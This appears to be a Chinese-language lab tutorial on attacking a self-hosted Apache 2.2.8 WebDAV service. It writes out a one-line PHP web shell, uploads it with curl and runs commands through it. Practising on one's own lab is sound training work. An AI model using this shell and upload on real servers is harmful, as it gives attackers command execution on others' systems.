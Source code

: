 # 簡單滲透作業示範

本示例展示如何利用 Docker 結合 Kubernetes（kubectl）在 Mac Ventura 上部署目標 Web 服務，並在 Kali VM 上利用 WebDAV 漏洞上傳一句話木馬 (shell.php) 進行滲透攻擊。  
**注意：** 此示例僅供學習用途，請勿在未經授權的情況下使用。

---

## 1. 部署目標服務（本機端 - Mac Ventura）

1. **部署服務：**  
   - 在終端機中執行以下指令，使用附檔 `k8s.yaml` 部署目標服務：
     ```bash
     kubectl apply -f k8s.yaml
     ```

2. **查詢 Service 狀態：**  
   - 在本機瀏覽器中訪問：
     ```
     kubectl get all/svc -n namespace-double-nodes
     ```

3. **端口轉發：**  
   - 將服務的 80 號端口轉發到本機 10088 端口：
     ```bash
     kubectl port-forward service/service-internet 10088:80 -n namespace-double-nodes --address 0.0.0.0
     ```
     
4. **確認連線：**  
   - 在本機瀏覽器中訪問：
     ```
     http://127.0.0.1:10088
     ```
   - 若能看到 Apache httpd 2.2.8 與 DAV/2 標記的頁面，即表示服務正常運作。

---

## 2. 準備 Kali VM 進行滲透測試

1. **確認連線：**  
   - 在 Kali VM 終端機中執行：
     ```bash
     ping 127.0.0.1
     ```
   - ※ 注意：若 Kali 與本機位於不同網段，請使用正確的 IP。

2. **掃描服務：**  
   - 在 Kali VM 中執行 nmap 掃描確認服務版本：
     ```bash
     nmap -sV -p 10088 127.0.0.1
     ```
   - 結果應顯示 Apache httpd 2.2.8 ((Ubuntu) DAV/2)，表明 WebDAV 可能啟用且版本過舊，存在漏洞風險。

---

## 3. 製作木馬檔 (shell.php)（Kali VM）

1. **建立木馬檔：**  
   - 在 Kali VM 中執行：
     ```bash
     echo "<?php system(\$_GET['cmd']); ?>" > shell.php
     ```
   - 用文字編輯器檢查檔案，內容應為：
     ```php
     <?php system($_GET['cmd']); ?>
     ```

---

## 4. 利用 WebDAV 漏洞上傳木馬（Kali VM）

1. **嘗試上傳木馬：**  
   - 使用 curl 嘗試將 `shell.php` 上傳到目標服務（假設 WebDAV 允許匿名上傳）：
     ```bash
     curl -T shell.php http://127.0.0.1:10088/dav/
     ```
   - 若上傳成功，`shell.php` 應位於服務的根目錄。

---

## 5. 驗證滲透攻擊（Kali VM）

1. **測試木馬：**  
   - 在 Kali VM 的瀏覽器中訪問以下 URL：
     ```
     curl http://127.0.0.1:10088/shell.php?cmd=whoami
     ```
   - 若返回執行結果（例如 Apache 的運行使用者），則表示成功利用漏洞執行命令。

---

## 6. 後續操作

- 一旦取得命令執行，便可進一步利用該木馬執行更多命令或反彈 shell。  
- 請根據目標環境調整攻擊策略與後續滲透步驟。

---

> **注意：**  
> 此示例僅供學習用途，請遵守相關法律與倫理規範，勿在未經授權的情況下進行滲透測試。
